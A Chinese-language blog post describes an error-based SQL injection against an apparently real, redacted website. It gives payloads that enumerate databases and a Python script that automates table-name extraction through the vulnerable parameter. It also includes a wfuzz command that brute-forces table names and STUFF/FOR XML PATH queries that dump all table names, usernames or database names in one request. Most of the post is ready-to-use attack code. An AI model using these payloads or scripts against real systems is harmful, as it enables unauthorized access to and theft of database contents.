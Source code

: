 ```yaml
---
title: SQL Server注入 - STUFF与XML Path
layout: post
date: '2020-03-02'
permalink: "/archivers/2020-03-02/3"
description: 某次**，发现一处SQL Server注入点
---
```


## 背景

某次XX，发现一处SQL Server注入点

## 报错注入

SQL Server注入，一般也是先找库、再找表、再查字段、最终查询数据。

## 查库

1.查第一个：

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
```

2.NOT IN

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
```

其中，NOT IN的集合会不断增加，最终无法查出其他结果，那么这个集合就是所有的数据库名称。

## 查表

在这一步，我们就可以自动化实现了：

```python
import requests
import re

table_list = ['']

def get_sqlserver_table(table_list, table_num):
    for num in range(0,table_num):
        # print("','".join(table_list))
        sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
        url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
        r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
        res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
        table_name = str(res.group(1))
        table_list.append(table_name)
        print("[{}] - TableName: {}".format(str(r.status_code), table_name))
if __name__ == "__main__":
    get_sqlserver_table(table_list, 16)

```

当取得第16个的时候，还是没有出现用户表、管理员表等，而且网站抛出了错误，无法继续取，突然没有其他办法了。

![2020-03-01-11-34-21](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d60590ed04ec4d3da6e917429c7cc4d4.png)


先来分析一下语句：

```sql
cid =1 and (select top 1 name from [数据库名称].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in (''))>0 AND 'aNmV'='aNmV
```

这是第一次请求的Payload，集合这里我写个空，不管怎样，集合都可以取得第一个表名。第二个、第三个表名都会向集合增加，以此类推，通过SQLMAP判断，有146个表。

到第16个因为原始语句有干扰，不能继续取得后续的表名，但我不想放弃。

于是，又想到通过FUZZ的方式：

![2020-03-01-11-34-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/835850cccf61c6d461e1fa9e4bede6bc.png)


```
wfuzz -c -z file,/usr/shar/sqlmap/data/common-table.txt --sc 500 "http://www.xxx/xxx?cid=1%27%20and%20%20(select%20top%201%20COLUMN_NAME%20from%20xxx.information_schema.columns%20where%20TABLE_NAME=%27Hsoft_FUZZ%27%20and%20COLUMN_NAME%20not%20in(%27x%27))%3E0%20and%20%27s%27=%27s"
```

- `Hsoft_` 为前缀
- sc 500 只匹配错误页面（报错注入）

但是字典貌似不够强大，我就去查询SQL Server有没有类似将多行数据合并为一行的办法。


我知道MySQL中有GroupConcat类似的函数，但SQL Server没有，这点很遗憾~ 没有继续使用SQL Map是因为SQLMAP根本无法取得任何一个表名，期间我也分析了SQL MAP的Payload，请求实在是多，就放弃了这条线。


## STUFF与XML Path

STUFF字符串函数是将字符串插入到另一个字符串中。它会删除开始位置第一个字符串中的指定长度的字符，然后将第二个字符串插入到开始位置的第一个字符串中，语法如下。

```sql
STUFF（<character_expression>，<开始>，<长度>，<character_expression>）
<character_expression>
```

参数是给定的字符串数据，可以是字符或二进制数据的常量，变量或列。`<start>`参数是一个整数值，指定开始删除和插入的位置，可以是BIGINT类型。如果`<开始>`或`<长度>`参数为负数，则返回NULL字符串。如果`<start>`参数比第一个`<character_expression>`长，则返回一个NULL字符串。 <length>参数可以是BIGINT类型，它是一个整数，指定要删除的字符数。如果<length>比第一个`<character_expression>`长，则删除发生到最后一个`<character_expression>`中的最后一个字符。


STUFF最常见的用途莫过于结合FOR XML PATH对返回JSON字符串的拼接。首先利用FOR XML PATH则返回XML格式的字符串，我们将FOR XML PATH添加到查询的末尾，此时允许我们将查询的结果作为XML元素输出，元素名称包含在PATH参数中。

如：

```sql
SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1
```

类似的SQL可能会返回多行数据，因此可以通过STUFF与XML PATH集合使用：


- 将查询到的数据转换成行，以逗号隔开，以`[]`包裹


```sql
SELECT STUFF((SELECT  '[' + name + '],'  
FROM(SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1) a  FOR  XML PATH('')  ), 1,0, '') AS Name 
```

![2020-03-01-11-35-00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7fadd9802ea0134308ad9c8e3e1fa7eb.png)

直接套用到注入场景：

```sql
SELECT STUFF((SELECT  '[' + name + '],'  FROM(SELECT name from 数据库名称.sys.all_objects where type='U' AND is_ms_shipped=0) a  FOR  XML PATH('')  ), 1,0, '')
```


在sql shell中直接执行即可返回所有表名：

![2020-03-01-11-35-15](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f1db9589f0c703b6ff101490ab00b90e.png)

所有表名以`[表名],`分割。

通过这个办法，我们可以套用很多需要多次请求注入的需求，如：

- 取得某个表10个用户名

```sql
SELECT STUFF((SELECT  '[' + username + '],'  FROM(SELECT Top 10 username from 数据库名称.User ) a  FOR  XML PATH('')  ), 1,0, '')
```

- 取得所有数据库名

```sql
SELECT STUFF((SELECT  '[' + Name + '],'  FROM(SELECT  Name from Master..SysDatabases ) a  FOR  XML PATH('')  ), 1,0, '')
```

其他场景自行想象！
